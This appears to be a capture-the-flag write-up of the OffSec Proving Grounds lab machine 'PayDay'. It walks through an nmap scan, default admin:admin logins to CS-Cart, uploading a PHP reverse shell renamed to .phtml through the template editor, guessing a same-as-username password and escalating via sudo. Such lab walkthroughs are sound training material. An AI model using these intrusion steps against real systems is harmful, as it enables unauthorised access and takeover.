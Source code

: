 # PayDay

## Info

PayDay is an intermediate linux machine from offsec proving grounds.

## Nmap

All tcp port scan.

```
22/tcp    open     ssh            syn-ack ttl 61 OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
80/tcp    open     http           syn-ack ttl 61 Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
110/tcp   open     pop3           syn-ack ttl 61 Dovecot pop3d
139/tcp   open     netbios-ssn    syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: MSHOME)
143/tcp   open     imap           syn-ack ttl 61 Dovecot imapd
445/tcp   open     netbios-ssn    syn-ack ttl 61 Samba smbd 3.0.26a (workgroup: MSHOME)
993/tcp   open     ssl/imap       syn-ack ttl 61 Dovecot imapd
995/tcp   open     ssl/pop3       syn-ack ttl 61 Dovecot pop3d
```

## HTTP 80

The following credentials allow access to CS-cart.

```
admin:admin
```

After researching the docs, the following url returns the version number.

```
http://<ip>/index.php?version
```

The version 1.3.3 is vulnerable to RCE with instructions in searchsploit.

```
get PHP shells from
http://pentestmonkey.net/tools/web-shells/php-reverse-shell
edit IP && PORT
Upload to file manager
change the extension from .php to .phtml
visit http://[victim]/skins/shell.phtml --> Profit. ...!
```

## User

After visiting the admin panel with the following url.

```
http://<ip>/admin.php
```

The following admin credentials allow authentication.

```
admin:admin
```

Browse to the 'look and feel' section and select template editor, this allows upload of the .phtml shell.

## Root

There is a capture file in the root directory with the following credentials.

```
brett:ilovesecuritytoo
```

These credentials do not work anywhere, as the user has a habit of setting the password the same as the username, the following works for patrick.

```
patrick:patrick
```

patrick allows all commands as sudo.

```
sudo su root
```
